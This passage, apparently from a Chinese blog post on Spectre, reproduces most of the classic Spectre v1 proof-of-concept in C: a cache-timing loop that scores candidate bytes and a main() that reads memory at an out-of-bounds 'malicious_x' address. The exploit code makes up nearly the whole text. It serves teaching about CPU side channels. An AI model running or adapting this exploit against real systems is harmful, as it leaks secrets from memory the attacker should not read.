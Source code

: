 ```c
        /* Locate highest & second-highest results results tallies in j/k */
        j = k = -1;
        for (i = 0; i < 256; i++) {
            if (j < 0 || results[i] >= results[j]) {
                k = j;
                j = i;
            } else if (k < 0 || results[i] >= results[k]) {
                k = i;
            }
        }
        if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
            break;  /* Clear success if best is > 2*runner-up + 5 or 2/0) */
    }
    results[0] ^= junk;  /* use junk so code above won't get optimized out*/
    value[0] = (uint8_t)j;
    score[0] = results[j];
    value[1] = (uint8_t)k;
    score[1] = results[k];
}

int main(int argc, const char **argv) {
    size_t malicious_x=(size_t)(secret-(char*)array1);   /* default for malicious_x */
    int i, score[2], len=40;
    uint8_t value[2];

    for (i = 0; i < sizeof(array2); i++)
        array2[i] = 1;    /* write to array2 so in RAM not copy-on-write zero pages */
    if (argc == 3) {
        sscanf(argv[1], "%p", (void**)(&malicious_x));
        malicious_x -= (size_t)array1;  /* Convert input value into a pointer */
        sscanf(argv[2], "%d", &len);
    }
    
    printf("Reading %d bytes:\n", len);
    while (--len >= 0) {
        printf("Reading at malicious_x = %p... ", (void*)malicious_x);
        readMemoryByte(malicious_x++, value, score);
        printf("%s: ", (score[0] >= 2*score[1] ? "Success" : "Unclear"));
        printf("0x%02X='%c' score=%d    ", value[0], 
            (value[0] > 31 && value[0] < 127 ? value[0] : '?'), score[0]);
        if (score[1] > 0)
            printf("(second best: 0x%02X score=%d)", value[1], score[1]);
        printf("\n");
    }
    return (0);
}
```

![示意图](/img/post_pics/os/spectre.png)

运行结果：
